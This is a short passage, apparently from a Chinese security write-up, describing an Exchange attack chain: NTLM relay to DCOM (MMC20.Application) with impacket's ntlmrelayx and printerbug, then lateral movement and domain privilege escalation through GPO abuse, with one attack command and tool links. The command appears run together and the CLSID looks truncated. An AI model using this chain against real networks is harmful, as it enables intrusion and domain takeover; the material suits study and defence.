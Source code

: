   

然后作者发现可以使用DCOM得MSRPC进行攻击

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133420.png)

选中的DCOM对象为

  

  * 

    
    
    MMC20.Application (49B2791A-B1AE-4C90-9B8E-E860BA07F89)

  

攻击链如下

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133421.png)

  

工具：

  

https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py

  

命令：

  

  *   * 

    
    
    ntlmrelayx.py -t dcom://exchange2 -smb2supportprinterbug.py domain/user:password@exchange1 attackaddress

  

横向移动、域提权

  

横向移动

  

作者给的图以及很明了了，有一个Exchange Trusted Subsystem组成员权限的前提下，便可以利用GPO实现对指定用户(域管除外)的rce。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210815133422.png)

工具：

  

https://github.com/Dliv3/SharpGPO

https://github.com/FSecureLABS/SharpGPOAbuse

  
